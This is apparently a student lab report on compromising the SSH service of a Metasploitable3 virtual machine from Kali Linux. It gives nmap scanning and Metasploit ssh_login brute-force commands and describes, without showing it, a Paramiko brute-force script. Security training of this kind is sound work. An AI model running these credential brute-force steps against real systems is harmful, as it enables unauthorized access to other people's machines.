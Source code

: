 # Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.101
  ![لقطة شاشة 2025-04-29 225928](https://github.com/user-attachments/assets/3f0d03ed-c30f-46d7-a50d-3b23d42c9405)

-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.56.101 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.
![لقطة شاشة 2025-04-29 230118](https://github.com/user-attachments/assets/20f0d103-8a20-4df2-9e9c-70f95b7f92df)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.102
  ![لقطة شاشة 2025-04-29 230105](https://github.com/user-attachments/assets/aba89bfb-3d89-4f8a-a34e-79832e7815d6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

1. Launch Metasploit:
   ```
   msfconsole
   ```
2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.

## Task 1.2 – Compromise Using Custom Script

- Developed a **Python script** that:
  - Brute-forces SSH login using a small credentials list.
  - Connects to the target and verifies access.
  - Outputs a success message upon successful login.

- Utilized the `paramiko` library for SSH connections.
- Demonstrated successful login to the victim system using weak credentials.

---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



